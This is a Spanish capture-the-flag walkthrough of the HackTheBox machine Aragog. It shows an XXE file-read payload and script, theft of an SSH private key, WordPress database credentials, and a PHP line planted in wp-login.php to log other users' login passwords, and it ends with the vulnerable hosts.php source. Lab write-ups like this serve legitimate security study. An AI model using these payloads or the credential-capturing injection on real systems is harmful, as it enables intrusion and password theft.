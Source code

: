 10.10.10.78 - Aragog

![Aragog](https://user-images.githubusercontent.com/96772264/202145480-9702eaac-406b-4a76-a143-176ff3f6b875.png)

--------------------

# Part 1: Enumeración

Puertos abiertos 22(ssh), 21(ftp), 80(http). Nmap nos dice que:
- Puerto 21 (ftp) -> se puede con anonymous, version vsftpd 3.0.3
- Puerto 80 -> Apache httpd 2.4.18, Nombre aragog.htb

```console
└─$ ftp 10.10.10.78
Name (10.10.10.78:cucuxii): anonymous
230 Login successful.
ftp> prompt off
ftp> dir
-r--r--r--    1 ftp      ftp            86 Dec 21  2017 test.txt
ftp> mget *
ftp> exit
└─$ cat test.txt 
<details>
    <subnet_mask>255.255.255.192</subnet_mask>
    <test></test>
</details>
```

```console
└─$ wfuzz -c --hc=404 -t 200 -w /usr/share/seclists/Discovery/Web-Content/directory-list-2.3-medium.txt http://aragog.htb/FUZZ/
000000070:   403        9 L      28 W       275 Ch      "icons"
000095511:   403        9 L      28 W       275 Ch      "server-status"
└─$ wfuzz -c --hc=404 -t 200 -w /usr/share/seclists/Discovery/Web-Content/directory-list-2.3-medium.txt http://aragog.htb/FUZZ.php
000006008:   200        3 L      6 W        46 Ch       "hosts"
```
-------------------------------

# Part 2: XXE
La página original es sitio por defecto de apache:
![aragog1](https://user-images.githubusercontent.com/96772264/202145591-d5e35542-8173-4bf1-8371-28d15c27570a.PNG)

La ruta /hosts.php nos dice que hay tales posibles hosts para una red (no nos dice cual).
![aragog2](https://user-images.githubusercontent.com/96772264/202145656-415fb445-c649-4c47-9a36-51db24520c7c.PNG)

Si probamos a darle el archivo que nos descargamos:
```console
└─$ curl -s -X POST http://aragog.htb/hosts.php -d @test.txt
There are 62 possible hosts for 255.255.255.192
```
Nos hace un subneteo.
Cambiamos la ip del test.test por otra al azar:
```console
└─$ curl -s -X POST http://aragog.htb/hosts.php -d @test.txt
There are 1902772222 possible hosts for 142.150.0.0
```
Como lo que estamos enviando es un XML, se podría intentar un XXE básico:
```console
<!DOCTYPE foo [ <!ENTITY xxe SYSTEM "file:///etc/passwd"> ]>
<details>
    <subnet_mask>&xxe;</subnet_mask>
    <test></test>
</details>
└─$ curl -s -X POST http://aragog.htb/hosts.php -d @test.txt 
There are 4294967294 possible hosts for root:x:0:0:root:/root:/bin/bash
daemon:x:1:1:daemon:/usr/sbin:/usr/sbin/nologin
bin:x:2:2:bin:/bin:/usr/sbin/nologin
...
```
-------------------------------

# Part 3: LFI

Tenemos por tanto lectura de archivos, me hice un script para automatizar esto:
```bash
#!/bin/bash

file=$1
rm -rf $(pwd)/test.txt
cat << EOF > $(pwd)/test.txt
<!DOCTYPE foo [ <!ENTITY xxe SYSTEM "file://$file"> ]>
<details>
    <subnet_mask>&xxe;</subnet_mask>
    <test></test>
</details>
EOF
curl -s -X POST http://aragog.htb/hosts.php -d @test.txt | sed 's/There are .* possible hosts for//g'
```
Dicho script crea un archivo xml cada vez por el archivo que queramos leer, ademas destruye el anterior.

```console
└─$ ./files.sh /etc/passwd | grep "sh$" 
# root, florian y cliff
└─$ for port in $(./files.sh /proc/net/tcp | awk '{print $2}' | awk '{print $2}' FS=":"); do echo "$((16#$port))" | tr "\n" ","; done
22,3306,52600 # Puertos internos (ssh, mysql y otro que no se que es)
└─$ ./files.sh /proc/net/fib_trie | grep "LOCAL" -B 1 | grep -oP '\d{1,3}\.\d{1,3}\.\d{1,3}\.\d{1,3}' | sort -u  | tr "\n" " "
10.10.10.78 127.0.0.1 
# Interfaces abiertas, no parece haber contenedores
└─$ ./files.sh /proc/self/environ # nada
└─$ ./files.sh /home/florian/.ssh/id_rsa
 -----BEGIN RSA PRIVATE KEY-----
MIIEpAIBAAKCAQEA50DQtmOP78gLZkBjJ/JcC5gmsI21+tPH3wjvLAHaFMmf7j4d
...
```
Copiamos la id_rsa que acabamos de conseguir. (Quitarle el espacio del principio)

```console
└─$ chmod 600 id_rsa
└─$ ssh -i id_rsa florian@10.10.10.78
florian@aragog:~$ 
```
-------------------------------

# Part 4: Explotación de wordpress

Ya tenemos la user.txt con él, para escalar privilegios tiramos de nuestro script de reconocimiento, pero como con él no encuentro nada, tiraré del de [monitoreo](https://github.com/CUCUxii/Pentesting-tools/blob/main/procmon.sh).
```console
florian@aragog:/tmp$ ./procmon.sh
> /usr/sbin/CRON -f
> /bin/sh -c /usr/bin/python3 /home/cliff/wp-login.py
> /usr/bin/python3 /home/cliff/wp-login.py
> /bin/bash /root/restore.sh

florian@aragog:/tmp$ cat /home/cliff/wp-login.py
cat: /home/cliff/wp-login.py: Permission denied
```
Parece que se están autenticando automaticamente con el script /home/cliff/wp-login.py, aunque no podamos leerlo.
Como nos hablan de wp-login (archivo de wordpress) seguro que existe un wp-config (archivo con creds de la base de datos)
```console
florian@aragog:/tmp$ find / -name "wp-config.php" 2>/dev/null
/var/www/html/zz_backup/wp-config.php # Este nos da permiso denegado
/var/www/html/dev_wiki/wp-config.php  # Este otro si que nos deja leerlo

florian@aragog:/tmp$ cat /var/www/html/dev_wiki/wp-config.php | grep "^define"
define('DB_USER', 'root');
define('DB_NAME', 'wp_wiki');
define('DB_PASSWORD', '$@y6CHJ^$#5c37j$#6h');
define('DB_HOST', 'localhost');

florian@aragog:/tmp$ mysql -u 'root' -p                                                                           
Enter password: $@y6CHJ^$#5c37j$#6h
mysql> show databases; # interesante -> wp_wiki
mysql> use wp_wiki;
mysql> show tables; # -> wp_users
mysql> show columns from wp_users;
mysql> select user_login, user_pass, user_email from wp_users;
Administrator | $P$B3FUuIdSDW0IaIc4vsjj.NzJDkiscu. | it@megacorp.com
```

Sería la clave un rabbit hole porque no se pudo romper con el jhon.
En la ruta /var/www/html se guarda el codigo fuente de la web que se está ofreciendo por el servidor
```console
florian@aragog:/var/www/html$ ls
dev_wiki  hosts.php  index.html  zz_backup
```
Como vemos hay una ruta nueva llamada dev_wiki (es un directorio con cosas de wordpress). O sea hay otra página de wordpress **aragog.htb/dev_wiki**

![aragog3](https://user-images.githubusercontent.com/96772264/202146138-9e7b6e30-bb3c-4af5-996e-553f10828540.PNG)

Si se están tratando de autenticar con el script de python de cliff /home/cliff/wp-login.py, podriamos pillar esa autenticción modificando el archivo 
 **./wp-login.php**, poninedo al principio:
```php
<?php
file_put_contents("/var/www/html/creds.txt" ,$_REQUEST, FILE_APPEND);
```
Hacemos un ```watch -n 1 curl -s http://aragog.htb/creds.txt``` y obtenemos las creds: *Administrator:!KRgYs(JFO!&MTr)lf*
```console
min/1florian@aragog:/var/www/html/dev_wiki$ su 
Password: 
root@aragog:~# cat root.txt
```

-------------------------------

# Extra: Script en php hosts.php, subneteo.

```php
<?php

    libxml_disable_entity_loader (false);
    $xmlfile = file_get_contents('php://input');
    $dom = new DOMDocument();
    $dom->loadXML($xmlfile, LIBXML_NOENT | LIBXML_DTDLOAD);
    $details = simplexml_import_dom($dom);
    $mask = $details->subnet_mask;
    //echo "\r\nYou have provided subnet $mask\r\n";

    $max_bits = '32';
    $cidr = mask2cidr($mask);
    $bits = $max_bits - $cidr;
    $hosts = pow(2,$bits);
    echo "\r\nThere are " . ($hosts - 2) . " possible hosts for $mask\r\n\r\n";

    function mask2cidr($mask){
         $long = ip2long($mask);
         $base = ip2long('255.255.255.255');
         return 32-log(($long ^ $base)+1,2);
    }
?>
```
